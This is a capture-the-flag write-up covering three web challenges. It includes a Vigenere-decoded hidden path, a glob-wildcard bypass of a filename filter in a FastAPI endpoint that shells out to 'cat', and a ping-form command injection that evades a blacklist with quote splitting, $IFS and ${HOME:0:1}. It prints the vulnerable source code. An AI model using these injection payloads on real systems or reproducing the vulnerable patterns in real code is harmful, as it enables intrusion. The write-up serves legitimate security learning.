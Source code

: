 ***
# Table of Contents
- [Table of Contents](#table-of-contents)
    - [power of js](#power-of-js)
        - [Challenge Description](#challenge-description)
    - [Imagery](#imagery)
        - [Challenge Description](#challenge-description-1)
    - [Welcome to admin portal](#welcome-to-admin-portal)
        - [Challenge Description](#challenge-description-2)

***

### power of js

---

##### Challenge Description
Participants are to recover the flag by taking a look at the Javascript code and find the path.

http://challenge2.lagncrash.com:14000/

---

In the index.js file from http://challenge2.lagncrash.com:14000/ , there is some lines that were commented out

![](assets/comment.png)

Using a Vigenere cipher decode with `johndoe` as the key to decode p1, p2 and p3 we get thisisthemostsecretpagethatyoucantevenguessla.html

![](assets/pt1.png)
![](assets/pt2.png)
![](assets/pt3.png)

Going to `http://challenge2.lagncrash.com:14000/thisisthemostsecretpagethatyoucantevenguessla.html` we can get the flag `LNC{Cli3nt_sid3_c0ntr0l_bypa55}`

### Imagery

---

##### Challenge Description

Hey I found this cool website. I wonder if they actually hide smth on the website.

http://challenge1.lagncrash.com:18675/

---

Going to the webpage, we see an image. Inspecting the source, it shows that the image is at `/file?name=img/image.jpg`

Goign to `/file`, we can get the source code

```python
from fastapi import FastAPI, HTTPException, Request
from fastapi.responses import HTMLResponse, Response
from user_agents import parse
from os import path
import re
import subprocess

app = FastAPI()

def check_request(request):
    user_agent = None
    for header in request['headers']:
        if header[0] == b'user-agent':
            user_agent = header[1].decode()

    if not user_agent:
        return False
        
    user_agent = parse(user_agent)
    if user_agent.is_bot:
        return False
    
    return True

@app.get('/', response_class=HTMLResponse)
async def index(request: Request):
    if not check_request(request):
        raise HTTPException(400, 'Malicious request received!')

    with open('index.html', 'r') as file:
        html = file.read()
        return HTMLResponse(html)

allowed_chars = re.compile(r'^[a-zA-Z0-9\?/\.]*$')
def check_malicious_filename(name):
    if not allowed_chars.match(name):
        print("yessssssssssssss")
        return True

    if 'etc' in name or 'tmp' in name or 'flag.txt' in name:
        return True
    return path.isabs(name)

@app.get('/file')
async def get_file(request: Request, name='main.py'):
    if not check_request(request):
        raise HTTPException(400, 'Malicious request received!')

    if check_malicious_filename(name):
        raise HTTPException(400, 'Malicious request received')
    
    try:
        process = subprocess.check_output(['/bin/bash',"-c", "cat " + name])
    except subprocess.CalledProcessError:
        raise HTTPException(400, 'Malicious request received')

    return Response(process)
```

Bypass the regular expression check using ?
Going to `/file?name=????.???`, we can get the flag `LNC{R3T4ArD_IM4G3S}`

### Welcome to admin portal

---

##### Challenge Description

Participants are to recover the flag by exploiting a remote command execution vulnerability. Some of the more common special characters and commands are blacklisted ... at least thats what the developer thinks :)

http://challenge1.lagncrash.com:12860/

Going to the url, we see that it accepts an IP address and pings it
![](assets/site.png)

Adding '' in commands we can execute commands

Example: `127.0.0.1;l''s`
![](assets/ls.png)


when trying to running `;ca''t index.php`, it did not return any value
After researching, we found that we could use `$IFS` for space
we tried `;ca''t$IFSindex.php` but it did not return any output

we used `;pw''d;` to find out which directory we are at, it returned `/var/www/html` 

After trying `;ca''t$(IFS)/var/www/html/index.php` and did not return any output, we researched more to find that we could replace / with `${HOME:0:1}`

After running `;ca''t$IFS${HOME:0:1}var${HOME:0:1}www${HOME:0:1}html${HOME:0:1}index.php`, we could get the page source code
```php
<?php 
    if(isset($_POST["ip"])){
        $input = $_POST["ip"];
        echo "<hr /><br />";

    #remove most of the special characters
    $blacklist = array(" ","&","|","@","%","^","~","`","<",">",",","\\","/");
    $input = str_replace($blacklist,"", $input);

    #remove some of the common commands that are used
    $blacklist = array("ls","cat","less","tail","more","whoami","pwd","busybox","echo");
    $input = str_replace($blacklist,"", $input);

       $output = shell_exec("ping -c 1 ".$input);

    if(isset($_GET["debug"]) == true){
        echo "<div>ping -c 1 ".$input."</div>";
    }

    echo "<pre>".$output."</pre>";

    #Great! Now try finding the secret file 
    }
?>
```

After running `127.0.0.1;l''s$IFS-la` we can list the current directory
![](assets/cdir.png)

Seeing that there is a file named `...`, we can cat it by using `;ca''t$IFS${HOME:0:1}var${HOME:0:1}www${HOME:0:1}html${HOME:0:1}...` to get the flag `LNC{Wh1t3_0v3r_bl4ck}`

![](assets/flag.png)